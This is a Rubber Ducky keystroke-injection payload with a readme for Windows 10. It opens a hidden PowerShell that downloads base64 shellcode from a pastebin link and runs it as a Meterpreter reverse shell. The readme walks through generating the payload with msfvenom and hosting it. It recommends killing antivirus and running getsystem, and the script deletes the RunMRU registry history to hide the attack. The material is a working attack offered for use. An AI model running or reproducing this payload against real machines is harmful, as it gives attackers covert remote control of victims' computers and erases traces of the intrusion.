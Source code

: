 * Author: Finianb1 + @0xCoto

* Target: Windows 10, probably works on Windows 7

* Description: Makes a meterpreter reverse shell by downloading base64 from pastebin. Clears run menu history afterwards.

* Configuration: Generate payload using this command: ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f psh-cmd --smallest```  Cut the payload down to JUST the base64. Upload to pastebin, my example: [https://pastebin.com/KQpwbiRS](https://pastebin.com/KQpwbiRS). Then, simply convert this URL to a raw URL by adding a /raw/ in it (https://pastebin.com/raw/KQpwbiRS) or by clicking on the "raw" button and copying the link. Now you have your URL!  
You can URL shorten it if you'd like, just make sure you use the raw link and not the normal pastebin link. Now change the ```$u='YOUR_LINK'``` to your URL (e.g. ```$u='https://pastebin.com/raw/KQpwbiRS'```). Then simply upload it to your rubber ducky, and you can get extremely fast shells.

* NOTE: It is recommended you migrate the shell and kill antivirus as soon as possible, as most antiviruses will pick up on a meterpreter shell and kill it. Running ```getsystem``` command on meterpreter is also great, but only works on Windows 7 and below (at least to my knowledge).

```
REM Opens a meterpreter using a pastebin link
REM See https://github.com/hak5/bashbunny-payloads/blob/master/payloads/library/remote_access/SingleSecondShell/readme.md
REM For how to create a link to your personal shellcode
DELAY 2000
GUI r
DELAY 1000
STRING powershell -windowstyle hidden $u='YOUR_LINK';$r=Invoke-WebRequest -Uri $u;powershell -nop -e $r.content
ENTER
GUI r
DELAY 1000
STRING powershell -WindowStyle Hidden -Exec Bypass "Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue"